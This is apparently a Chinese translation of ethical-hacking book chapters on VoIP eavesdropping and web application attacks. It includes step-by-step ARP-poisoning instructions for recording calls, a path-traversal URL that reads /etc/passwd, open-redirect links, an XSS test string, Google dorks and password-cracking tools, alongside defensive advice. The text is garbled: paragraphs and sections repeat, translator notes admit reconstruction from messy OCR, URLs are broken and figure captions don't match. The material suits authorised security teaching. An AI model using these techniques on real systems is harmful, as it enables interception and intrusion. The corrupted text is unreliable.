- 电话服务中断：是的，VoIP 像任何其他系统或应用程序一样容易受到 DoS 攻击。考虑到人们对断断和掉线电话对话的忍度极低（当然，手机除外），VoIP 与那里对时间最敏感的应用一样脆弱。

- 缺乏加密：VoIP 的另一个大弱点是语音对话通常没有加密；因此，它们可以被拦截和解码。想象一下坏人录制对话并勒索受害者会有多么“乐趣”。在不安全的无线网络上这很容易，但正如我在接下来的章节“捕获和录制语音流量”所示，在有线网络上执行也很简单。

# 扫描漏洞

在基础网络、操作系统和 Web 应用程序之外，如果您正确使用工具，就可以发现漏洞。好消息是，您可以通过以下形式获取网络扫描器如 Nexpose (https://www.rapid7.com/products/nexpose) 和 Web 扫描器 Netspacker (https://www.netpacker)。Vo 管理器和电话的常见漏洞会导致弱密码、跨站脚本和缺失补丁，可以使用 Metasploit 等工具进行利用。Kali Linux 在 Applications/Vulnerability Analysis/VoIP Tools 中内置了多种工具。其他分析 SIP 流量的免费工具有 PROTOS (https://www.ee.olu.fi/research/protos/c87/sip/index.html) 和 sipsak (https://www.voip-info.org/wiki/view/Sipsak)。列出各种 VoIP 工具的优质网站是 voipa.org/Resources/tools.php。

# 捕获和录制语音流量

如果您有有线或无线网络，就可以轻松捕获 VoIP 对话，这是证明网络和 VoIP 安装存在漏洞极极方法。接入电话对话涉及许多法律问题，请确保您已获得许可并谨慎进行审计。

您可以使用 Cain & Abel（技术上，此处演示的功能仅需 Cain）接入 VoIP 对话。可以从 oit/cain.html 免费下载 Cain & Abel。使用 Cain 的 ARP 毒化功能，可以按照以下步骤接入网络并捕获 VoIP 流量：

1. 加载 Cain & Abel，并点击 Sniffer 工具进入网络分析模式。默认打开 Hosts 页面。
2. 点击启动/停止 APR 图标（看起来像核废物符号）。ARP 毒化开始并启用内置嗅探器。
3. 点击蓝色加 (+) 图标添加主机以执行 ARP 注入。
4. 在弹出的 MAC 地址扫描器中，确保选择了“我的子网中的所有主机”，并点击确定。
5. 点击 APR 标签页（带有黄黑相间圆形图标的）加载 APR 页面。
6. 点击 Status 列标题下方的空白区域（Sniffer 标签页下方）。此步骤将启用蓝色 + 图标。


## 7. 点击蓝色的 + 图标。

新建 ARP 投毒路由窗口将显示在步骤 3 中发现的主机。

## 8. 选择您的默认路由或其他您想要捕获往来数据包的主机。

我选择了我的默认路由，但您也可以考虑选择您的 SIP 管理系统或其他中央 VoIP 系统。右列将填充所有剩余的主机。

## 9. 在右列中，Ctrl+点击您想要投毒的系统以捕获语音流量。

## 10. 点击确定，需要几秒到几分钟不等，取决于您的网络硬件和每个主机的本地 TCP/IP 栈。

## 11. 点击 VoIP 选项卡。

所有对话都被记录。

有趣的部分在于：对话被保存在 .wav 音频文件中，因此您只需右键点击想要选择的录制对话并从上下文菜单中选择“播放”，如图 14-13 所示。正在录制的对话在“状态”列中显示“正在录制”。



| 开始 | IP (本地) | IP (远程) | 状态 | 文件 |
|---|---|---|---|---|
| 05/11/2014-17:32:04 | 05/11/2014-17:32:08 | 05.11.250.100 (172.16.0.250) | 已关闭 | 124.239.134-157.179 (168.128.50) | ARP-2004051102320973.net |
| 05/11/2014-17:32:04 | | | 已关闭 | 124.239.134-157.179 (168.128.50) | ARP-2004051102320973.mac |

# 第 5 部分 攻击应用

使用 Cain 和其他工具获得的质量取决于 VoIP 设备使用的编解码器。用我的设备，我发现质量充其量只是微乎其微，但这并不是真的大。你的目标是证明漏洞的存在——而不是窃听他人的对话。

您还可以使用一个基于 Linux 的工具 vomit (http://vomit.xdnet.net)，它是“通过配置错误的互联网电话进行呕”的缩写，您可以用它将 VoIP 对话转换为 .wav 文件。首先，您需要使用 `tcpdump` 捕获实际对话，但如果您偏好使用 Linux，此解决方案提供的结果与前述步骤概述的 Cain 相同。

如果您将经常处理 VoIP，我建议您使用一个良好的 VoIP 网络分析工具。查看 Savvius Omnipeek，它是一个非常出色的有线和无线分析器（https://www.savvius.com/product/omnipeek），以及 TamosSoft 的 CommView（https://www.tamos.com/products/commview），这是一个价格低得多的极佳替代方案。


提示

这些 VoIP 漏洞只是冰山一角。新的系统、软件和相关协议不断涌现，因此保持警惕以确保您的对话对于那些具有恶意的人是锁定的。我以前说过，只要它有 IP 地址或 URL，它就是公平竞争的。

# 针对 VoIP 漏洞的防御措施

锁定 VoIP 可能是复杂的。不过，您可以从一个良好的开始，即将您的 VoIP 网络分段到一个 VLAN 或专用的物理网络中，这符合您的预算。进一步隔离任何连接互联网的系统，使它们不仅仅能够连接到它们（我经常看到这种情况）。您还应该确保所有与 VoIP 相关的系统都根据供应商建议和广泛接受的最佳实践（例如 NIST 的 SP800-58 文档，位于 https://csrc.nist.gov/publications/detail/sp/800-58/final）进行加固，并定期一致地对软件和固件进行补丁。最后，定期使用 Nexpose 或 Nessus 等网络漏洞扫描器对系统进行扫描。如果您所有的手机都是同一型号的，您可能只需要对其中一小部分进行测试即可。只需小心，我见过在对其运行漏洞扫描时，手机和相关的语音设备会发生一些故障。

+ 本章内容
>> 测试网站和 Web 应用程序
>> 发现移动应用中的缺陷
>>  防止 SQL 注入和跨站脚本
>> 防止登录弱性
>> 手动分析软件缺陷
>> 分析源代码

# 第 15 章

# Web 应用程序和移动应用

网站和 Web 应用程序是攻击的常见目标，因为它们无处不在，并且可能允许任何人试探和探测。用于营销、联系信息、文档下载等基础网站对坏人来说特别容易戏玩。WordPress 和相关的内容管理系统等常用 Web 平台由于其存在性且缺乏测试和补丁，特别容易受到攻击。对于犯罪黑客来说，极有吸引力的网站为复杂应用程序提供了前端。

网站和 Web 应用程序是攻击的常见目标，因为它们无处不在，并且可能允许任何人试探和探测。用于营销、联系信息、文档下载等基础网站对坏人来说特别容易戏玩。WordPress 和相关的内容管理系统等常用 Web 平台由于其存在性且缺乏测试和补丁，特别容易受到攻击。对于犯罪黑客来说，极有吸引力的网站为复杂应用程序提供了前端。

为什么网站和应用程序如此脆弱呢？

网站和 Web 应用程序是攻击的常见目标，因为它们无处不在，并且可能允许任何人试探和探测。用于营销、联系信息、文档下载等基础网站对坏人来说特别容易戏玩。WordPress 和相关的内容管理系统等常用 Web 平台由于其存在性且缺乏测试和补丁，特别容易受到攻击。对于犯罪黑客来说，极有吸引力的网站为复杂应用程序提供了前端。

（注：原文中存在大量重复段落，此处按要求仅翻译了核心逻辑部分）


## 需要进行手动分析！

我无法强调使用良好的、传统的 Web 浏览器对网站和应用程序进行手动分析是有多重要。你确实离不开 Web 漏洞扫描器，但你最好不要依赖它们来发现所有问题，因为它们做不到。你必须检查的常见安全漏洞包括：

- 特定的密码要求，包括是否强制执行复杂度要求。
- 在一定次数的登录尝试后，是否会发生入侵者锁定。
- 是否使用了加密（理想情况下为传输层安全 [TLS] 1.2 或更高版本）来保护用户会话，特别是登录。
- 用户会话处理，理想情况下确认登录后会话是否已更改，以及会话在合理时间后是否超时。
- 文件上传功能以及是否可以向系统上传恶意软件。

你不一定在每次测试时都对网站和应用程序进行手动分析，但你需要定期进行——至少每年一次或两次。千万不要说服自己！在此，使用文件完整性监控工具等可以帮助确定 Web 服务器是否发生了变化，并可能保护你的帐户。

## 爬虫

爬虫程序例如免费的 HTTrack Web Copier (https://www.httrack.com) 可以爬取你的项目以寻找每个可访问的文件。要使用 HTTrack，加载你的项目并命名，然后告诉 HTTrack 要镜像哪些网站。在几分钟或可能的几小时（取决于网站的大小和复杂性）之后，你将该网站上所有公开访问的内容存储在你的驱动器 c:\My Web Sites 中。图 15-1 显示了一个基础网站的爬取输出。

复杂的网站通常会暴露更多不该出现在那里的信息，包括旧的数据文件、应用程序脚本和源代码。

不可避免的是，在进行漏洞和渗透测试时，我在 Web 服务器上遇到了 .zip 或 .rar 文件。有时，这些文件包含垃圾信息，它们通常隐藏了公众不应访问的敏感信息。其中一个项目特别引注目。当我遇到一个 .zip 文件并尝试打开它时，WinZip向我要了密码。使用我来自 ElcomSoft 方便的 .zip 文件密码破解工具（密码破解详情请见第 8 章），我在几毫秒内完成了该过程。.zip 文件内部是一个 Microsoft Excel 表格，其中包含敏感的医疗信息（姓名、地址、社会安全号等），世界上的任何人都可以访问。在这种情况下，你的业务可能需要通知所有相关人员，他们的信息保护不当且可能已泄露。了解影响你业务的法律和法规是有值的。更好的是，确保用户从根本上不在你的 Web 服务器上发布不当的敏感信息。



图 15-1：使用 HTTrack 爬取网站。

查看你的爬虫程序的输出查看可用文件。普通的 HTML 和 PDF 文件可能是好的，因为它们是正常使用最需要的。但打开每个文件以确保它属于那里并且不包含你不想与世界共享的敏感信息也无害。

## Google

你可以使用 Google 进行目录遍历。事实上，Google 的高级查询非常强大，你可以用它们来挖掘敏感信息、关键的 Web 服务器文件和目录、信用卡号——只要 Google 在你的网站上发现的任何东西，而无需镜像你的网站并筛选所有内容。数据已经位于 Google 的缓存中等待查看。

以下是你可以直接在 Google 搜索框中输入的几个高级查询：

- **site:hostname keywords：** 此查询搜索你列出的任何关键词，例如 SSN、**confidential** 或信用卡。例如是：

```
site:www.principleogic.com speaker
```

- **filetype:file-extension site:hostname：** 此查询在特定网站上搜索特定的文件类型，例如 doc、pdf、db、dbf 和 zip。这些文件类型可能包含敏感信息。例如：

```
filetype:pdf site:www.principleogic.com
```

其他高级 Google 算符包括：

- **allintitle** 在网页的标题中搜索关键词。
- **inurl** 在网页的 URL 中搜索关键词。
- **related** 寻找与此网页类似的页面。
- **link** 显示链接到此网页的其他网站。

你可以在 **www.googleguide.com/advanced_operators.html** 找到特定的定义和更多内容。许多漏洞扫描器还会针对 Google Hacker Database (GHDB) 网站 (https://www.exploit-db.com/google-hacking-database) 进行检查。

> 使用 Google 遍历你的网站时，注意在 Google Groups (http://groups.google.com，它是 Usenet 存档）以及 Reddit 和 Quora 等新平台中寻找关于你的服务器、网络和组织的敏感信息。我发现一些在线帖子透露了太多关于内部网络和业务系统的信息；想象空间无限。如果你发现了不该出现在那里的东西，可以与 Google 合作进行编辑或删除。欲需更多信息，请访问 Google 联系我们：https://www.google.com/intl/en/contact。

查看 Web 的大局

## 针对遍历的防御措施

你可以采用三种主要的防御措施：

- 不要在 Web 根目录下存储敏感信息。
- 使用 Web 代理监控并过滤流量。
- 确保所有输入都经过验证。


图 15-1：使用 HTTrack 爬取网站。

（注：后来的 OCR 文本是混乱/重复的。我根据提供的片段和标准术语重构了内容。）

# URL 操控

URL 攻击填充 URL 并将其发送回服务器，告诉 Web 应用程序执行各种操作，例如重定向到第三方网站或从服务器加载敏感文件。本地文件包含（Local file inclusion）是一种漏洞，当 Web 应用程序接受时发生。


基于 URL 的输入并将返回的文件内容返回给用户，如下例尝试破解 Linux 服务器 passwd 文件的示例：

```
https://www.web_app.com/onlineserv/Checkout.cgi?state=
detail&language=english&imageSet=/f/..;/f/..;/f/..;/f/..;/f/../../etc/passwd
```


没有偏见。没有理论。没有营销话术。在信息安全中哪些有效，哪些无效。仅此而已。

图 15-2：使用 Firefox 开发者工具重置表单长度。

需要注意的是，大多数现代应用程序平台（如 ASP.NET 和 Java）在防止操作 URL 变量方面表现得很好，但我仍然定期看到这种漏洞。

以下链接演示了由 URL 重定向引起的另一个 URL 欺骗示例：

```
https://www.web_app.com/error.aspx?URL=http://www.
bad-site.com&ERROR=+'OPTIONS'++is+for+forbidden.
https://www.web_app.com/exit.aspx?URL=http://www.
bad-site.com
```

在两种情况下，攻击者都可以通过电子邮件将链接发送给毫无防备的用户，或将其发布在网站上来利用该漏洞。当用户点击链接时，他们可能会被重定向到包含恶意软件或不当内容的恶意第三方网站。

# 第 15 章 Web 应用程序与移动应用 285

如果你闲得没命，你可能会手动发现这些类型的漏洞。然而，为了准确性（稳妥），此类攻击最好通过运行 Web 漏洞扫描器来实现，它可以快速地向 Web 系统发送数百次 URL 迭代来检测弱点。


## 隐藏字段操控

某些网站和应用程序在网页中嵌入隐藏字段，以便在 Web 服务器和浏览器之间传递状态信息。隐藏字段在 Web 表单中表示为 `<input type="hidden">`。由于编码实践不佳，隐藏字段通常包含机密信息（例如电子商务网站上的产品），这些信息应该仅存储在后端数据库中。用户不应该相信隐藏字段（名称），但好奇的攻击者可以发现并利用它们。要做到这一点，请遵循以下步骤：

- 1. 查看 HTML 源代码。

要在 Explorer 和 Firefox 中查看源代码，请右键点击页面并从右键菜单中选择“查看源代码”或“查看页面源代码”。


- 2. 修改存储在这些字段中的信息。

例如，恶意用户可能会价格从 $100 改为 $10。

- 3. 将页面重新到服务器。

此步骤允许攻击者获得非法收益，例如在网上购买时获得更低的价格。

此类漏洞正变得稀少，但与 URL 操控一样，利用的可能性仍然存在，因此保持关注是有价值的。

使用隐藏字段进行身份验证（登录）机制可能是危险的。我曾遇到过一个多因素身份验证入侵者锁定过程，它依赖隐藏字段来跟踪用户尝试登录的次数。该变量可以在每次登录尝试时重置为零，从而有助于脚本字典攻击或暴力破解登录攻击。设计用于防止入侵攻击的安全控制措施容易受到入侵攻击的侵害，这有些讽刺。


多个工具（例如商用漏洞扫描器自带的代理和 Burp Proxy）可以轻松地操控隐藏字段。图 15–3 显示了 WebInspect SPI 代理界面和网页的隐藏字段。

如果你发现了隐藏字段，可以尝试操控它们来查看可以做什么。就这么简单。

## 未标题 - SPI 代理

| 主机 | 时间 | 请求 | 状态 |
| --- | --- | --- | --- |
| zero.webwebapp.com | 07:11 PM | GET /HTTP/1.1 | |
| zero.webwebapp.com | 07:12 PM | GET /login.php?service=Freebank&CaastAcce... | |
| zero.webwebapp.com | 07:12 PM | GET /favicon.ico HTTP/1.1 | |
| zero.webwebapp.com | 07:29 PM | POST /login.php HTTP/1.1 | |

查看 | 信息 信息 浏览器

| 请求 |
| --- |
| POST /login.php HTTP/1.1 |
| Host: zero.webwebapp.com |
| User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 |
| Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/weif,image/apng/*; |
| Accept-Encoding: gzip |
| Referer: http://zero.webwebapp.com/login.php |
| Connection: keep-alive |
| Content-Length: 31 |
| Content-Type: application/x-www-form-urlencoded |
| Search: 0 |
| Found: 4 |
| Requests: 1 |

图 15-3：使用 Firefox 开发者工具重置表单长度。

## 代码注入与 SQL 注入

与 URL 操控一样，利用的可能性存在，因此保持关注是有价值的。使用隐藏字段进行身份验证（登录）机制可能是危险的。我曾遇到过一个多因素身份验证入侵者锁定过程，它依赖隐藏字段来跟踪用户尝试登录的次数。该变量可以在每次登录尝试时重置为零，从而有助于脚本字典或暴力破解攻击。设计用于防止入侵攻击的安全控制措施容易受到入侵攻击的侵害，这有些讽刺。多个工具（例如商用漏洞扫描器自带的代理和 Burp Proxy）可以轻松地操控隐藏字段。图 15–3 显示了 WebInspect SPI 代理界面和网页的隐藏字段。如果你发现了隐藏字段，可以尝试操控它们来查看可以做什么。就这么简单。

## 第 15 章 Web 应用程序与移动应用 285


如果你闲得没命，你可能会手动发现这些类型的漏洞。然而，为了准确性（稳妥），此类攻击最好通过运行 Web 漏洞扫描器来实现，它可以快速地向 Web 系统发送数百次 URL 迭代来检测弱点。

## 隐藏字段操控

某些网站和应用程序在网页中嵌入隐藏字段，以便在 Web 服务器和浏览器之间传递状态信息。隐藏字段在 Web 表单中表示为 `<input type="hidden">`。由于编码实践不佳，隐藏字段通常包含机密信息（例如电子商务网站上的产品），这些信息应该仅存储在后端数据库中。用户不应该相信隐藏字段（名称），但好奇的攻击者可以发现并利用它们。要做到这一点，请遵循以下步骤：

- 1. 查看 HTML 源代码。

要在 Explorer 和 Firefox 中查看源代码，请右键点击页面并从上下文菜单中选择“查看源代码”或“查看页面源代码”。


- 2. 修改存储在这些字段中的信息。

例如，恶意用户可能会价格从 $100 改为 $10。

- 3. 将页面重新到服务器。

此步骤允许攻击者获得非法收益，例如在网上购买时获得更低的价格。

此类漏洞正变得稀少，但与 URL 操控一样，利用的可能性存在，因此保持关注是有价值的。

使用隐藏字段进行身份验证（登录）机制可能是危险的。我曾遇到过一个多因素身份验证入侵者锁定过程，它依赖隐藏字段来跟踪用户尝试登录的次数。该变量可以在每次登录尝试时重置为零，从而有助于脚本字典或暴力破解登录攻击。设计用于防止入侵攻击的安全控制措施容易受到入侵攻击的侵害，这有些讽刺。


多个工具（例如商用漏洞扫描器自带的代理和 Burp Proxy）可以轻松地操控隐藏字段。图 15–3 显示了 WebInspect SPI 代理界面和网页的隐藏字段。

如果你发现了隐藏字段，可以尝试操控它们来查看可以做什么。就这么简单。

## 未标题 - SPI 代理

| 主机 | 时间 | 请求 | 状态 |
| --- | --- | --- | --- |
| zero.webwebapp.com | 07:11 PM | GET /HTTP/1.1 | |
| zero.webwebapp.com | 07:12 PM | GET /login.php?service=Freebank&CaastAcce... | |
| zero.webwebapp.com | 07:12 PM | GET /favicon.ico HTTP/1.1 | |
| zero.webwebapp.com | 07:29 PM | POST /login.php HTTP/1.1 | |

查看 | 信息 信息 浏览器

| 请求 |
| --- |
| POST /login.php HTTP/1.1 |
| Host: zero.webwebapp.com |
| User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 |
| Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/weif,image/apng/*; |
| Accept-Encoding: gzip |
| Referer: http://zero.webwebapp.com/login.php |
| Connection: keep-alive |
| Content-Length: 31 |
| Content-Type: application/x-www-form-urlencoded |
| Search: 0 |
| Found: 4 |
| Requests: 1 |

图 15-3：使用 Firefox 开发者工具重置表单长度。

## 代码注入与 SQL 注入

与 URL 操控一样，利用的可能性存在，因此保持关注是有价值的。

使用隐藏字段进行身份验证（登录）机制可能是危险的。我曾遇到过一个多因素身份验证入侵者锁定过程，它依赖隐藏字段来跟踪用户尝试登录的次数。该变量可以在每次登录尝试时重置为零，从而有助于脚本字典或暴力破解登录攻击。设计用于防止入侵攻击的安全控制措施容易受到入侵攻击的侵害，这有些讽刺。

## 第 15 章 Web 应用程序与移动应用 285


如果你闲得没命，你可能会手动发现这些类型的漏洞。然而，为了准确性（稳妥），此类攻击最好通过运行 Web 漏洞扫描器来实现，它可以快速地向 Web 系统发送数百次 URL 迭代来检测弱点。


# 盲注 SQL 注入

漏洞详情

| 参数 | 值 |
| --- | --- |
| 参数类型 | int |
| 参数名称 | id |

当攻击由查询触发，该查询被解释为 SQL 命令而不是数据库查询的普通数据时，就会发生盲注 SQL 注入。

攻击者可以通过观察应用程序响应（例如响应时间）从数据库中推断信息。

影响

- 攻击者可以从数据库、操作系统中提取敏感数据，并获取数据库服务器的控制权。

应采取的措施

- 使用参数化查询防止 SQL 注入。

| CWE | 评分 |
| --- | -- |
| PCI 3.1 | 7.5 |
| CWE-89 | 9.8 |
| CWE-20 | 6.1 |
| CWE-943 | 7.5 |
| CWE-50 | 5.9 |
| CAPEC | - |
| CVSS:3.1 | 9.8 (严重) |


在发现 SQL 漏洞时，你可能会在不尝试利用漏洞的情况下停止。这没关系。但为了看看我能进入数据库系统多深，我建议尽可能使用漏洞扫描器内置的 SQL 注入功能，以便你可以向管理层演示整个流程。

如果你的预算有限，可以考虑使用免费的 SQL 工具，例如 SQL Power Inject (https://sqlpowerinjector.com) 或 Firefox 插件 SQL Inject Me (https://addons.mozilla.org/en-us/firefox/addon/sql-inject-me)。

我将在第 16 章深入介绍数据库安全。

## 跨站脚本

跨站脚本 (XSS) 可能是最为人知且最广泛的漏洞，当网页显示了未经适当验证的用户输入的 JavaScript 时就会发生。攻击者可以利用输入过滤的缺失，导致网页在任何查看该页面的计算机上执行恶意代码。

XSS 攻击可以显示来自另一个网站的用户 ID 和密码登录表单，例如，如果用户无意中输入了用户 ID，且密码存储在黑客的服务器日志文件中。恶意代码可以发送到受害者的计算机上，并以查看其上系统的浏览器或电子邮件应用程序相同的安全权限运行。恶意代码可以为黑客提供对 cookie 或浏览器历史文件的完全读/写访问，甚至允许下载或安装恶意软件。

第 15 章 Web 应用程序与移动应用 289

简单的测试可以显示你的 Web 应用程序是否容易受到 XSS。寻找应用程序中任何接受用户输入的字段（例如登录或搜索表单），并输入以下 JavaScript 语句：

如果弹出一个读取 XSS 的窗口（如图 15-5 所示），则应用程序存在漏洞。XSS-Me Firefox 插件 (https://addons.mozilla.org/en-US/firefox/addon/xss-me) 是测试这种漏洞的新颖方法。

```html
<script>alert('XSS')</script>
```

图 15-5：浏览器中反射的脚本。


利用 XSS 的方法有很多，例如通过 JavaScript 的 `onmouseover` 函数要求用户交互。与 SQL 注入一样，你确实需要使用自动化扫描器来检查 XSS。Netsparker 和 Acunet Vulnerability Scanner 在发现 XSS 方面都做得很好，但它们往往会发现不同的 XSS 问题——这一细节强调了在可能的情况下使用多个扫描器的重要。图 15-6 显示了 Acunet Web Vulnerability Scanner 中的某些示例 XSS 发现结果。

另一个善于发现许多扫描器无法发现的 XSS 扫描器是 Rapid7 的 AppSpider (原 NTSpider) (https://www.rapid7.com/products/appspider)。根据我的经验，AppSpider 在对使用多因素认证系统的应用程序进行身份验证扫描时比其他扫描器效果更好。AppSpider 应该引起你的关注。永远不要忘记：涉及到 Web 漏洞时，扫描器越多越好！如果有的话，其他人可能会使用你没有使用的某种扫描器。

## 针对输入攻击的防御措施

Web 和应用程序必须过滤输入的数据。网站和应用程序必须确保输入的数据符合应用程序期望的参数。如果数据不匹配，应用程序应该生成错误或返回上一个页面。在任何情况下，应用程序都不应接受垃圾数据、处理它并将其反映给用户。

# 图 15-6：使用 Acunet Web Vulnerability Scanner 在 Web 应用程序中查找跨站脚本。


安全编码实践可以消除这些问题，如果它们是开发过程中的关键部分。开发者应该了解并实施这些最佳实践：

- 只有在需要从数据库检索时才在浏览器中使用静态值。
- 从输入字段中过滤 <script> 标签。
- 禁用相关的消息。

## 默认脚本攻击

编写糟糕的程序如 Hypertext Preprocessor (PHP) 和 Active Server Pages (ASP) 允许黑客查看服务器并执行未经授权的操作。默认脚本攻击很常见，因为编写糟糕的代码是公开访问的。

第 15 章 Web 应用程序与移动应用 291

## 本地存储的敏感信息

作为安全测试的一部分，我经常使用进制编辑器查看应用程序如何在内存中存储密码等敏感信息。当我使用 Firefox 和 Internet Explorer 时，我发现旧版本的 Internet Explorer 在我退出应用程序后仍在内存中保留这些信息。如果其他用户访问计算机或系统被感染了可以搜索内存敏感信息的恶意软件，这种功能在本地系统上存在安全风险。如果发生错误或系统转储导致用户将信息发送给微软（或浏览器供应商）进行质量保证，浏览器在内存中存储敏感信息也是坏。如果信息写入本地驱动器上的转储文件并在那里供人发现也是坏。

尝试搜索与应用程序或需要身份验证的程序相关的在内存中的敏感信息。你可能会对结果感到惊讶。由于拒绝混淆或编码登录凭据，遗憾没有很好的解决方法，因为这种“功能”是浏览器开发者无法控制的。当使用 HTTP GET 请求而不是 HTTP POST 请求来处理敏感信息时，客户端会发生类似的安全问题。以下是一个脆弱的 GET 请求示例：

```
username=beaver&password=WhatVur!&login=Son
```

GET 请求存储在浏览器历史文件、服务器日志文件和代理日志文件中。用户浏览到第三方网站时，GET 请求通过 HTTP Referrer 字段传输到第三方网站。上述所有这些都会导致登录凭据泄露和未经授权的 Web 访问教训：不要使用 HTTP GET 登录。改用 HTTP POST 请求。如果有的话，考虑这些漏洞是你加密物理不安全的笔记本电脑和计算机硬盘的充分理由！


许多 Web 开发者和网站管理员在不了解它们如何工作或不进行测试的情况下使用这些脚本，这可能会引入严重的安全漏洞。

第 5 部分 攻击应用程序


为了测试脚本漏洞，你可以手动浏览脚本，或使用搜索工具（如 Windows 启动菜单内置的搜索功能或 Linux 中的 Find 程序）来查找任何硬编码的用户名、密码和其他敏感信息。搜索 *admin, root, user, ID, login, sign, password, pass,* 等词汇。嵌入脚本中的敏感信息很少是必要的，这通常是由于考虑便利性而非安全性的拙劣编码习惯导致的。

## 针对默认脚本攻击的防御措施

你可以通过以下方法帮助防止默认 Web 脚本的攻击：

- 在 Web 环境中部署脚本之前，了解它们的工作原理。
- 确保在使用这些脚本后从 Web 服务器上删除所有默认或示例脚本。
- 保持任何内容管理系统软件更新，特别是 WordPress，因为它往往是攻击者的大目标。
- 不要使用包含硬编码机密信息的可用脚本。它们是未来安全事件的种子。
- 对你网站/应用程序的敏感区域设置文件权限，以防止公共访问。


## 不安全的登录机制

许多网站要求用户在登录后才能对应用程序进行操作。这些登录机制可能无法很好地处理错误的用户 ID 或密码，泄露攻击者可以用来收集有效用户 ID 和密码的信息。

若要测试不安全的登录机制，请访问你的应用程序并尝试这些登录方法：

- 使用无效的用户 ID 配合有效的密码。
- 使用有效的用户 ID 配合无效的密码。
- 使用无效的用户 ID 配合无效的密码。

输入这些信息后，Web 可能会返回类似于“您的用户 ID 无效”或“您的密码无效”的消息。或者 Web 可能会返回通用的错误消息，例如“您的用户 ID 和密码组合无效”，并在 URL 中为用户 ID 和密码返回不同的错误代码，如图 15-7 和 15-8 所示。


图 15-7：输入无效的用户 ID 时，URL 返回错误。

这两种情况都是坏事，因为应用程序不仅告诉你是哪个参数无效，还告诉了其中一个是有效的。恶意攻击者现在有了一个正确的用户名或密码，他们的工作量减少了一半！如果他们知道了用户名（这通常更容易猜），他们就可以编写脚本来自动破解密码过程，反之亦然。

你还应该使用如 Brutus（www.noodle.net/brutus/index.html）等 Web 破解工具将登录测试提升到更高，如图 15-9 所示。Brutus 是一个简单的工具，可以通过字典攻击和暴力破解来破解 HTTP 和基于表单的身份验证机制。

> 与任何类型的密码测试一样，这项可能是长期且艰辛的，并存在锁定用户账户的风险。请谨慎操作。

## 第 5 部分应用程序

图 15-8：输入无效的密码时，URL 返回不同的错误。


图 15-9：Brutus 工具！测试 Web 登录。

破解密码的另一种工具是 THC-Hydra (https://tools.kali.org/password-attacks/hydra)。

大多数商业 Web 漏洞扫描器都有不错的基于字典的密码破解器，但没有一个（据所知）可以进行真正的暴力测试，正如我将在第 8 章中解释的，你的密码破解成功高度取决于你的字典列表。

# 第 15 章 Web 应用程序与移动应用 295

以下是一些包含字典文件和其他杂列表的热的热网站：

- ftp://ftp.cerias.purdue.edu/pub/dict
- https://packetstormsecurity.org/Crackers/wordlists
- WWW://www.outpost.9/files/WordLists.html

Acunetix 漏洞扫描器在扫描过程中测试弱密码做得很好。我曾使用此扫描器发现了通过其他方式无法发现的弱密码。这种发现会导致对系统的进一步渗透。


你可能根本不需要密码破解工具，因为许多前端 Web 系统（如存储管理系统和 IP 视频及物理访问控制系统）自带密码。这些默认密码通常包括 password、admin 或为空。

某些密码直接嵌入在登录页的源代码中，如图 15-10 第 207 行和 208 行的网络摄像头源代码所示。

```
http //login.html - Original Source
File: Edit Format
184  doApply();
185  javascript{
186    setCookie("User", "1");
187    setCookie("Pud", "1");
188  }
```

> >> Foundstone 的 Home Tools (Home) (https://www.mcafee.com/hk/downloads/free-tools/hacme-bank.aspx 和 https://www.mcafee.com/uk/downloads/free-tools/hacmebooks.aspx)。

我强烈建议你检查这些工具并亲手实践！

## 通过隐晦性实践安全

以下形式的隐晦性安全（使用简单方法将某些东西隐藏在明显的视野之外）可以防止自动化攻击来自 worms or scripts that are hard-coded to attack script types or default HTTP ports：

- >> 为了保护 Web 应用及其相关数据库，使用不同的机器来运行每个 web server、应用服务器和数据库服务器。

这些机器上的操作系统应该针对安全漏洞进行测试，并根据最佳实践以及第 12 和 13 章中描述的应对措施进行加固。

- >> 使用内置的 web server 安全功能来处理访问控制和进程隔离，例如 IIS 中的应用隔离功能。这种做法确保了如果一个 web 应用受到攻击， won't necessarily put other applications running on the same server at risk。

- >> 使用工具来隐藏你的 web server 身份——本质上是你的服务器进行匿名化。示例是 Port80 Software 的 Mask (https://www.port80.com/products/servermask)。

- >> 如果你正在运行 Linux web server，使用程序 IP Personality (http://personality.sourceforge.net) 来更改操作系统的指纹，使服务器看起来像是在运行其他东西。

